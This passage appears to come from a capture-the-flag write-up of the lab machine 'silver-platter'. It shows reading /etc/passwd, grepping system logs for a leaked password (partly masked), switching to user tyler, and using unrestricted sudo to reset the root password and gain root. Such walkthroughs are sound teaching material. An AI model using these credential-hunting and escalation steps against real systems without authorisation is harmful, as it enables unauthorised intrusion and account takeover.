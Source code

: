 ```bash
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
tyler:x:1000:1000:root:/home/tyler:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
tim:x:1001:1001::/home/tim:/bin/bash
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

Using the command ```cat /etc/passwd``` allows us to see all users available on the machine, and confirm that ```tyler``` is one of them.
Looking for easy wins, we use the command ```grep -ir "password" /var/log```
This command searches recursively (-r) and case-insensitively (-i) for the word "password" in all files inside the ```/var/log``` directory and its subdirectories.

The output is pretty long, but analyzing with some patience, we find an interesting line
```bash
/var/log/auth.log.2:Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd******** -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```
There is a plaintext password saved in the logs, the line mentions the user ```tyler``` which we know is our target, so we attempt to pivot to ```tyler``` with the new credentials.

```bash
tim@silver-platter:~$ su tyler
Password: 
tyler@silver-platter:/home/tim$ 
```
Bingo!

Enumerating privileges,we find out that this is a quick win, as the the user tyler is allowed to run any command on the box as root (ALL : ALL) , knowing the password, we can simply set a new password for the user root, and then escalate privileges.

```bash
tyler@silver-platter:/home/tim$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

```bash
tyler@silver-platter:/home/tim$ sudo passwd root
New password: 
Retype new password: 
passwd: password updated successfully
tyler@silver-platter:/home/tim$ su root
Password: 
root@silver-platter:/home/tim# 
root@silver-platter:/home/tim# whoami
root
root@silver-platter:~# cd ../home/tim
root@silver-platter:/home/tim# cd ../../root
root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh
root@silver-platter:~# 
```